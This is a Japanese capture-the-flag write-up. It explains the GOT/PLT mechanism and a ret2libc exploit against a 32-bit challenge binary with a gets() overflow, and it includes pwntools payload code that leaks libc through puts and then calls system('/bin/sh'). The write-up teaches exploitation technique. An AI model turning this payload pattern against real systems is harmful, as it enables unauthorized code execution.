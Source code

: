 # Here are GOT and PLT


## 解説の概要

ASLR 有効下での ret2libc。
`puts@plt(puts@got)` にて libc リークを行い、`system("/bin/sh")` を起動する。
なお、使われてる libc を特定するために、本バイナリがダンプする `munmap@plt` と `open@plt` のアドレスを用いる。

別解として、`mmap@plt` を用いてシェルコードを使う方法でも解ける。



## 解説

### 脆弱性の特定

<img src="img/vulnlocation.png" width="45%"/>

`vuln` 関数を見ると、`gets` 関数によりバッファより大きい入力をスタックに入れられることがわかる。


### 実行ファイルの解析

`checksec` コマンドを使用すると以下の出力がかえる。

- Arch:       i386-32-little      => 32 bit なので引数とかはスタックに入る
- RELRO:      Partial RELRO
- Stack:      No canary found     => スタック上のバッファからリターンアドレスまで一気に書き換えても問題無い
- NX:         NX enabled          => スタックにシェルコードをおいて実行などはできない
- PIE:        No PIE (0x8048000)  => このバイナリイメージがロードされるアドレスは毎回固定
- Stripped:   No

また、ASLR が有効な環境で本バイナリは動作しているので、ASLR有効+PIE無効だと以下のようになる

- 実行イメージのアドレス: 固定
- スタックやヒープのアドレス: 毎回変化

実行イメージは固定なのでガジェットや GOT/PLT が使いやすいという点から、ROP を用いる事にする。


### エクスプロイト

リターンアドレスまでのオフセットは以下の通りバッファ先頭から 17 バイト目とわかる。

<img src="img/retoffset.png" width="50%"/>

目的はシェルを起動する事なので、`system("/bin/sh")` を実行するために libc にある `system` 関数のアドレスを求め、リターンアドレスの位置にこれをセットしたい。
しかし、ASLR が有効であり、libc は PIE が有効なため、ロードされるベースアドレスが実行ごとにランダムになっている。
故に、libc のベースアドレスをまずはリークさせたい。

libc リークのよくある手法として、GOT と PLT を用いる方法がある。
これは、例えば C のソースコードで `printf` 関数を使っていて、それをコンパイルした場合、printf 関数の実体は libc の中にあるが、そこのアドレス X に対し `call X` のようにアセンブリが構築されている訳ではない。
その実行バイナリの .plt セクション (PLT) には、その実行バイナリで使われる外部関数毎に数行のアセンブリ命令が用意されており、その命令があるアドレス Y に対し `call Y` のようにアセンブリが構築されている。
本バイナリでは、自分自身の .plt セクションをダンプしているが、これは `objdump -D -j .plt vuln` の linux コマンドを実行する事でより綺麗に表示することができる。

<img src="img/pltvuln.png" width="50%"/>

最初の関数は例外だが、他の関数はどれも最初 `jmp` 命令にてあるアドレスに格納されたアドレスに飛んでいる事がわかる。
また、よく見ると書かれているアドレスは関数同士で 4 バイト違いのアドレスになっている事がわかる。
この `jmp` 命令で参照されているアドレスは、GOT というテーブル上のアドレス (.got.plt に相当) で、この GOT に各関数の libc 上のアドレスが格納されている。

何故コンパイル時に libc のアドレスを直接指定しないのかと思うかもしれないが、その一つの理由として libc はそもそも PIE が有効なので実行毎にアドレスが変わるので、ハードコードできないからという点がある。
ハードコードできない故に、実行時にその関数を使うタイミングで libc 上のアドレスを解決している。しかし、毎回同じ関数を使う度にアドレス解決をするのはオーバーヘッドが大きいので、一回解決したら GOT に libc 上のアドレスを記録して、次回以降はそれを使うようになっている。

PLT を再度見ると、常に GOT のアドレスを参照するようになっているので、まだ GOT に libc のアドレスが無い場合どうなるかという点だが、GOT には最初、アドレス解決を行う命令列へのアドレスが格納されている。
そのアドレス解決の処理は、先ほどの .plt セクションの各関数の命令列にある `jmp` 命令の次の２つの命令に相当する。

まとめると以下のような感じである。

<img src="img/dump.png" width="60%"/>

脱線したが、libc のベースアドレスを GOT/PLT を用いてリークするには、以下のステップを踏む。

1. libc 上の何らかの関数のアドレスを出力させる
    1. libc 上のアドレスは GOT にある
    1. これを `puts` とかを使って出力する
    1. `puts` の libc 上のアドレスはわからないが、その実行バイナリで `puts` が使われていれば PLT に `puts` を呼ぶアドレスがあるので、それをリターンアドレスにセットすれば実行できる
        1. ちなみに直接 `system` を呼ぶことができないのは、今回のバイナリでは `system` を使っていないので PLT にそのエントリが無いため
1. 手元の libc のバイナリで、ベースアドレスから `puts` までのオフセットを求めておき、それを先ほどリークした値から引けばベースアドレスが求められる
    1. ベースアドレスから各関数までのオフセットは、libc のバージョン等によるため、攻撃対象が何の libc を使っているのか知る必要がある
    1. これは、https://libc.rip/ などのサイトに、いくつかの関数の libc 上のアドレスを入れることで判別できる
        1. 幸い今回は `open@plt` と `munmap@plt` のアドレスが出力されているので、ダンプの GOT と PLT を参考にその libc 上のアドレスを入力すればいい

まず、攻撃対象の libc のバージョンを調べる。

<img src="img/version.png" width="85%"/>

２つ候補が出てくるが、どちらをダウンロードして使っても解ける。

続いて、`puts` 関数を用いて、`puts@plt(puts@got)` を実行させる事で libc リークを行う。
vulnバイナリではPIEが無効であるためPLTとGOTは毎回固定のアドレスとなり、手元の環境で起動するアドレスとターゲットマシン環境で起動している環境で同一のアドレスになるはずである。
故に、`elf = ELF("vuln")` でローカルにロードした `vuln` の GOT と PLT のアドレスを `elf.plt["puts"]` という形で使っている。
第一引数に `elf.got["puts"]` を入れ、リターンアドレスにて `elf.plt["puts"]` を指定して実行することで libc の `puts` のアドレスが出力される。
`elf.plt["puts"]` のリターン先として `vuln` を指定することでもう一度入力を受付させる。
リークができたら、先ほどダウンロードした libc を元に libc のベースアドレスを求める。

````py
    elf = ELF("vuln")
    libc = ELF("libc6_2.39-0ubuntu8.4_i386.so") # libc.rip を使って持ってくる

    ## ... 略 ...

    # 1: libc リーク
    payload  = b"" 
    payload += b"a" * 16
    print("puts@plt:",  hex(elf.plt["puts"]))
    print("puts@got:",  hex(elf.got["puts"]))
    print("vuln:",  hex(elf.symbols["vuln"]))
    payload += pack('<I', elf.plt["puts"])  # 最初のリターンアドレス
    payload += pack('<I', elf.symbols["vuln"])
    payload += pack('<I', elf.got["puts"])
    payload += b"\n"
    r.send(payload)

    r.recvuntil(b"\n") # Nice to meet you は飛ばす
    puts_addr = r.recvuntil(b"\n")
    puts_addr = u32(puts_addr[0:4])
    libc_base = puts_addr - libc.symbols["puts"] # elf.symbols はelfのベースが固定なので絶対アドレスだが、libc.symbolsはlibcがpieなのでオフセットになるので注意
    print("puts:", hex(puts_addr))
    print("libc:", hex(libc_base))
````

libc のベースアドレスを元に libc 内の system 関数のアドレスと `"/bin/sh"` という文字列のアドレスを求め、`system("/bin/sh")` を実行すれば終わりです。

````py
   # 2: リークした libc ベースを元に system と "/bin/sh" のアドレスを計算
    system_addr = libc_base + libc.symbols["system"]
    binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
    print("system:", hex(system_addr))
    print("binsh:", hex(binsh_addr))

    # 3: シェル起動
    payload  = b""
    payload += b"a" * 16
    payload += pack('<I', system_addr)
    payload += pack('<I', elf.symbols["vuln"])
    payload += pack('<I', binsh_addr)
    payload += b"\n"
    r.send(payload)

    r.interactive()
````
